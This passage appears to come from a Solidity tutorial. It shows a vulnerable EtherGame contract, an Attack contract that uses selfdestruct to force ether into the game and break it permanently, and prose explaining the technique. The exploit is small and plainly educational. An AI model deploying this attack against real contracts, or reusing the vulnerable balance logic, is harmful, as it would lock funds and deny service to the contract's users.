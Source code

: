 ```js
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        // You can simply break the game by sending ether so that
        // the game balance >= 7 ether

        // cast address to payable
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}

```

When we deploy these contracts and interact with the functions, we realize that we are able to `deposit` Ethereum to the `EtherGame` contract but there is a limit set to prevent the game from going over a set target. Without a fallback or receive function, we can't send ETH directly into the contract.

> A wise choice would be to force ETH into a contract via `selfdestruct` and hence blocking the game mechanics, making the game unplayable forever.

The `Selfdestruct` keyword will forcefully push value into another smart contract, whether the receiving contract is prepared to receive funds or not.

## Conclusion

The `selfdestruct` function is a powerful tool in Ethereum's Solidity language. Use it wisely and with caution. It provides not only a means to delete a contract but also the ability to forcefully push any amount of Ethereum into any other contract address. It also serves as a useful instrument for exploiting smart contracts by forcing Ethereum into places where they don't typically go.
